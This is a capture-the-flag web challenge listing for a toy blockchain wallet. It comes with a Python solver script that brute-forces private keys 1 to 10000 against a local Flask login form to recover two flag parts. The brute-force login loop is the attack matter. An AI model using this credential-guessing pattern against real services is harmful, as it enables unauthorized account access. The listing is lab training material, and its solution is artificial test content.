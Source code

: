 # satoshi from wish

## Daniel Boye

## Category: {Web}

## Problem Statement

You are presented with a blockchain-based wallet system, where users, such as Alice and Bob, can conduct transactions securely. The goal is to gain access to the wallet by identifying the correct public and private keys and extract the hidden flag, split into two parts.

The blockchain wallet system is implemented using a simple blockchain data structure. Each user can create transactions to send coins to other users in the system.

Your task is to analyze the blockchain wallet system and find a way to log in as both Alice and Bob to extract the hidden flag parts.

Submit the public and private keys to gain access to the dashboard.
Once logged in as both users, combine the flag parts to reveal the complete flag.

## Flavor Text

The blockchain wallet system is implemented using a simple blockchain data structure. Each user can create transactions to send coins to other users in the system.

The system has two users, each with their unique public and private key system.

Your task is to analyze the blockchain wallet system and find a way to log in as both users to extract the hidden flag parts.

Once logged in as both users, combine the flag parts to reveal the complete flag.

The flag is in the format: <flag_part1><flag_part2>

## Difficulty

- **Easy:** 1-5 steps, typically 2-5

## Challenge Information (2/3)

- **Estimated Solve Time:** 10min-30min
- **Solver Script:** 

```python
import requests
from bs4 import BeautifulSoup

# Change the port to the Flask app's running address. 
BASE_URL = "http://127.0.0.1:5002"
session = requests.Session()

def try_login(public_key, private_key):
    data = {
        "public_key": public_key,
        "private_key": private_key
    }
    response = session.post(f"{BASE_URL}/", data=data)
    return response

def get_flag_from_html(html_content):
    soup = BeautifulSoup(html_content, "html.parser")
    flag_element = soup.find("p", {"id": "flag"})
    if flag_element:
        flag = flag_element.text.strip().replace("Flag: ", "")
        return flag
    return None

def combine_flags(alice_flag, bob_flag):
    full_flag = alice_flag + bob_flag
    return full_flag

def main():
    global alice_flag_part
    global bob_flag_part

    public_keys_response = session.get(f"{BASE_URL}/public_keys")
    public_keys_data = public_keys_response.json()

    for username, user_data in public_keys_data.items():
        public_key = user_data
        print(f"\nTrying to log in as {username} with public key: {public_key}")

        for private_key_guess in range(1, 10001):
            response = try_login(public_key, private_key_guess)
            if "Welcome" in response.text:
                flag = get_flag_from_html(response.text)
                if flag:
                    print(f"\nFlag for {username}: {flag}")
                    print(f"Private key that worked: {private_key_guess}")
                    if username == "Alice":
                        alice_flag_part = flag
                    elif username == "Bob":
                        bob_flag_part = flag
                    if alice_flag_part and bob_flag_part:
                        full_flag = combine_flags(alice_flag_part, bob_flag_part)
                        print(f"\nFull flag: {full_flag}\n")
                        return
                else:
                    print(f"Flag not found for {username}")
                break

if __name__ == "__main__":
    alice_flag_part = ""
    bob_flag_part = ""
    main()
```

## Type

- **Single Docker Container** Runs in one docker container. Run the setup.sh to start it. If you want to edit the port, do it in the ./setup and in the app.py